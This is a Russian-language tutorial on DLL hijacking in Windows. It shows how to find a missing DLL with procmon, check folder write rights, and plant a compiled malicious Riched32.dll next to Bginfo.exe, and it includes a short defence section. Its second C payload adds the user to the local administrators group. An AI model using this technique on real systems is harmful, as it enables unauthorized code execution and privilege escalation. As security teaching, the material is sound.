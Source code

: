 \newpage
\subsection{6. DLL-hijacking в Windows. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![DLL hijacking](./images/8/2021-09-25_12-09.png){width="75%"}

Что такое DLL-хайджекинг? DLL-хайджекинг - это техника, при которой мы заставляем легитимное/доверенное приложение загружать нашу вредоносную DLL.

В среде Windows, когда приложение или служба запускается, оно ищет ряд DLL, необходимых для корректной работы. Ниже представлена схема, показывающая порядок поиска DLL по умолчанию в Windows:    

![DLL hijacking](./images/8/dllhijack.png){width="75%"}

В этом посте мы рассмотрим только самый простой случай: каталог приложения доступен для записи. В этом случае любую DLL, загружаемую приложением, можно подменить, так как это первое место, где система ищет библиотеки.

### Шаг 1. Поиск процесса с отсутствующими DLL

Наиболее распространенный способ найти отсутствующие DLL в системе - это запустить [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) из Sysinternals, установив следующие фильтры:   

![procmon with filters](./images/8/2021-09-25_11-52.png){width="75%"}

Это позволит определить, какие DLL приложение пытается загрузить и путь, по которому оно их ищет:    

![procmon missing dlls](./images/8/2021-09-25_11-53.png){width="75%"}

В нашем примере процесс `Bginfo.exe` не находит несколько DLL, которые потенциально могут быть использованы для DLL-хайджекинга. Например, `Riched32.dll`.

### Шаг 2. Проверка прав доступа к папке

Давайте проверим права доступа к папке:
```cmd
icacls C:\Users\user\Desktop\
```

![folder permissions](./images/8/2021-09-25_14-42.png){width="75%"}

Согласно [документации](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls), у нас есть права на запись в эту папку.   

### Шаг 3. DLL-хайджекинг

Сначала запустим `bginfo.exe`:    
![run bginfo](./images/8/2021-09-25_11-54.png){width="75%"}

Следовательно, если я помещу DLL с именем `Riched32.dll` в тот же каталог, что и `bginfo.exe`, то при запуске инструмента выполнится и мой вредоносный код. Для простоты я создам DLL, которая просто отображает всплывающее сообщение:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Теперь мы можем скомпилировать DLL (на машине атакующего):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![compile DLL](./images/8/2021-09-25_11-58.png){width="75%"}

Затем переименуем файл в `Riched32.dll` и скопируем нашу вредоносную DLL в `C:\Users\user\Desktop\`.   

![replace DLL](./images/8/2021-09-25_14-54.png){width="75%"}

Теперь запускаем `bginfo.exe`:   

![run process 1](./images/8/2021-09-25_12-00.png){width="75%"}

![run process 2](./images/8/2021-09-25_12-04.png){width="75%"}

Как видите, наша вредоносная логика выполнена:

Итак, `bginfo.exe` и вредоносная `Riched32.dll` находятся в одной папке **(1)**    
Затем запускаем `bginfo.exe` **(2)**    
Появляется всплывающее сообщение! **(3)**   

### Защита от атак

Самый простой способ защиты - убедиться, что все установленное программное обеспечение размещается в защищенном каталоге `C:\Program Files` или `C:\Program Files (x86)`. Если программное обеспечение не может быть установлено в эти каталоги, следующим шагом будет обеспечение того, чтобы только пользователи с административными правами могли создавать или изменять файлы в каталоге установки, предотвращая тем самым возможность атакующего развернуть вредоносную DLL и использовать эту уязвимость.

### Эскалация (повышение) привилегий

DLL-хайджекинг может использоваться не только для выполнения кода. Он также может применяться для получения устойчивости и повышения привилегий:    

Найти процесс, который выполняется/будет выполняться с другими привилегиями (горизонтальное/латеральное перемещение) и которому не хватает DLL.   

Иметь разрешение на запись в любую папку, где будет искаться DLL (обычно это каталог исполняемого файла или какая-либо папка внутри системного пути).   

Затем заменяем наш код:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    system("cmd.exe /k net localgroup administrators user /add");
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

```

*Для x64 компилируем с: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*Для x86 компилируем с: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Дальнейшие шаги аналогичны.

### Заключение

Но во всех случаях есть нюанс.   

Обратите внимание, что в некоторых случаях DLL, которую вы компилируете, должна экспортировать несколько функций, чтобы загружаться процессом-жертвой. Если эти функции отсутствуют, бинарный файл не сможет их загрузить, и эксплуатация завершится неудачей.    

Таким образом, компиляция пользовательских версий существующих DLL оказывается сложнее, чем может показаться на первый взгляд, так как многие исполняемые файлы не загрузят такие DLL, если в них отсутствуют процедуры или точки входа. Инструменты, такие как [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html), могут использоваться для перечисления всех внешних имен функций и порядковых номеров легитимных DLL. Убедившись, что наша скомпилированная DLL следует тому же формату, мы максимизируем вероятность ее успешной загрузки.    

В будущем я постараюсь разобраться с этим и попробую создать скрипт на Python, который будет генерировать `.def`-файл из оригинальной целевой DLL.

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)    
[исходный код на Github](https://github.com/cocomelonc/2021-09-24-dllhijack)     

Я добавил уязвимый bginfo (версия 4.16) на github, если вы захотите поэкспериментировать.   
